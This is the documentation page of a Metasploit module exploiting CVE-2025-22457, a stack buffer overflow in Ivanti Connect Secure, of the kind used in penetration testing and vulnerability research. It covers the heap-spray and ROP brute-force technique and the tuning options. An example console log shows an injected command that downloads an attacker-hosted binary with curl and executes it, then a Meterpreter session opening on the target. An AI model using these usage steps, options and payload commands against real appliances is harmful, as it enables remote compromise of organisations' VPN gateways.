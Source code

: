 ## Vulnerable Application

This module exploits a Stack-based Buffer Overflow vulnerability in Ivanti
Connect Secure to achieve remote code execution (CVE-2025-22457). Versions
22.7R2.5 and earlier are vulnerable. Note that Ivanti Pulse Connect Secure,
Ivanti Policy Secure and ZTA gateways are also vulnerable but this module
doesn't support this software. Heap spray is used to place our payload in
memory at a predetermined location. Due to ASLR, the base address of
`libdsplibs` is unknown. This library is used by the exploit to build a ROP
chain and get command execution. As a result, the module will brute force this
address starting from  the address set by the `LIBDSPLIBS_ADDRESS` option.

Since this module needs to fill the processes memory with a large structure
using the heap spray technique, it might take a very long time to succeed. The
execution can be tweeked with the options described below.

Also, since this will create many sockets on your system, you might need to
increase the file descriptor limit with `ulimit` (e.g. `ulimit -n 65535`).

### Installation Steps
Get an Ivanti Security Appliance (ISA) or a Virtual Appliances (ISA-V Series)
with a vulnerable Ivanti Connect Secure installed.

Note that it is not possible to download a trial version of a Virtual Appliance
unless you contact sales and request a demo.

## Verification Steps
1. Start msfconsole
1. Do: `use linux/http/ivanti_connect_secure_stack_overflow_rce_cve_2025_22457`
1. Do: `exploit verbose=true lhost=<local host> rhosts=<remote host>`
1. You should get a Meterpreter session


## Options

### MAX_THREADS
The maximum number of threads to use when spraying (default: 32)

### WEB_CHILDREN
The number of `/home/bin/web` child processes the server uses. It's been
observed that the number of children the main process forks is directly related
to the number of vCPUs used by the system. Ivanti recommends having 4 vCPUs, so
the default number of children is set to 4.
Note that this option should be set properly, since the exploit needs to send enough
spray patterns to fill the memory of each child process. This is mandatory,
since we don’t control which child process will be used to trigger the
vulnerability. If we send too much data, the process memory will overflow and
the process will crash. A `Broken pipe` socket error will happen in this case.
So, if the number of `WEB_CHILDREN` is too low (< vCPUs), we might not send
enough data to fill the memory of every child process and the exploit would
likely fail. This scenario cannot be detected since the child processes should
not crash. The module will simply continue to brute force with a different base
address of `libdsplibs`, without detecting the real issue. On the other hand,
if we send too much data, the child processes will crash and we will need to
start everything again with a lower `WEB_CHILDREN` value.

### LIBDSPLIBS_ADDRESS
The base address of libdsplibs that the module will start with when brute
forcing. It has been observed that this address is always in the range of
`0xf6525000`-`0xf6426000`, giving 256 possible options, since the alignment is
4KB (0x1000 bytes) bytes. As a result, the default value has been set to
`0xf6426000`.

### BRUTEFORCE_ATTEMPTS
The number of attempts to brute force the base address of libdsplibs (default: 255).


## Scenarios

### Ivanti Connect Secure version 22.7r2.4 b3597

In this example, the address of libdsplibs is known to speed up the process (0xf64c1000). Also, we know the target system runs with 2 vCPUs.

```
msf exploit(linux/http/ivanti_connect_secure_stack_overflow_rce_cve_2025_22457) > exploit verbose=true lhost=192.168.222.97 rhosts=192.168.222.222 libdsplibs_address=0xf64c1000 web_children=2
[*] Command to run on remote host: curl -so ./pbPNUixqDiK http://192.168.222.97:8080/QAeBnT-6WHJiW5MJjwMrfA;chmod +x ./pbPNUixqDiK;./pbPNUixqDiK&
[*] Fetch handler listening on 192.168.222.97:8080
[*] HTTP server started
[*] Adding resource /QAeBnT-6WHJiW5MJjwMrfA
[*] Started reverse TCP handler on 192.168.222.97:4444
[*] 192.168.222.222:443 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.222.222:443 - Checking the product version for https://192.168.222.222:443
[+] 192.168.222.222:443 - The target appears to be vulnerable. Detected version: 22.7.2.3597
[*] 192.168.222.222:443 - shell_cmd: a;export LD_LIBRARY_PATH=/home/lib;curl -so ./pbPNUixqDiK http://192.168.222.97:8080/QAeBnT-6WHJiW5MJjwMrfA;chmod +x ./pbPNUixqDiK;./pbPNUixqDiK& #BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[*] 192.168.222.222:443 - Targeting https://192.168.222.222:443
[*] 192.168.222.222:443 - Starting...
[*] 192.168.222.222:443 - Trying libdsplibs.so @ 0xf64c1000
[*] 192.168.222.222:443 - Making connections...
[*] 192.168.222.222:443 - Spraying...
[*] 192.168.222.222:443 - Triggering...
[*] 192.168.222.222:443 - Attempt #1
[*] 192.168.222.222:443 - Attempt #2
[*] Client 192.168.222.222 requested /QAeBnT-6WHJiW5MJjwMrfA
[*] Sending payload to 192.168.222.222 (curl/7.80.0-DEV)
[*] Meterpreter session 1 opened (192.168.222.97:4444 -> 192.168.222.222:16758) at 2025-04-30 21:36:49 +0200
[!] 192.168.222.222:443 - Exception: The connection with (192.168.222.222:443) timed out.
[*] 192.168.222.222:443 - Attempt elapsed time: 222.46986142301466 seconds
[*] 192.168.222.222:443 - Total elapsed time: 227.48146175200236 seconds

meterpreter > sysinfo
Computer     : 192.168.222.222
OS           : CentOS 7.9.2009 (Linux 4.17.00.35-selinux-jailing-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: nr
```
